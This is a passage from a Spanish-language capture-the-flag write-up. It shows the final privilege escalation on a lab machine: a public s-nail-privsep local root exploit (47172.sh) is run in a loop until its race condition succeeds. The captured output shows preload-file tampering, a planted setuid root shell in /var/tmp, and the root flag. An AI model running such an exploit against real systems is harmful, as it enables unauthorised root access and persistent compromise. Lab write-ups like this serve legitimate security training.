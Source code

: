 Echo esto estableceremos los permisos de ejecuccion por si acaso al `.sh`:

```shell
chmod +x 47172.sh
```

Y por ultimo vamos a ejecutarlo a ver si funciona:

```shell
bash 47172.sh
```

Pero veremos que no funciona, estuve investigando y no siempre funciona a la primera, por lo que vamos a crear un bucle ejecutandose continuamente hasta que funcione:

```shell
while true; do ./47172.sh ;done
```

Esperando un rato veremos que ha funcionado y veremos lo siguiente:

```
[-] Failed. Not vulnerable?
[.] Cleaning up...
[-] Failed
[~] Found privsep: /usr/lib/s-nail/s-nail-privsep
[.] Compiling /var/tmp/.snail.so.c ...
[.] Compiling /var/tmp/.sh.c ...
[.] Compiling /var/tmp/.privget.c ...
[.] Adding /var/tmp/.snail.so to /etc/ld.so.preload ...
[=] s-nail-privsep local root by @wapiflapi
[.] Started flood in /etc/ld.so.preload
[.] Started race with /usr/lib/s-nail/s-nail-privsep
[.] This could take a while...
.............................................................
[.] Race #631 of 1000 ...
[+] got root! /var/tmp/.sh (uid=0 gid=0)
[.] Cleaning up...
[+] Success:
-rwsr-xr-x 1 root root 14424 Apr 15 03:01 /var/tmp/.sh
[.] Launching root shell: /var/tmp/.sh
# whoami
root
```

Por lo que veremos con esto ya seremos `root` por lo que leeremos la `flag` de `root`.

> root.txt

```
832B123648707C6CD022DD9009AEF2FD
```
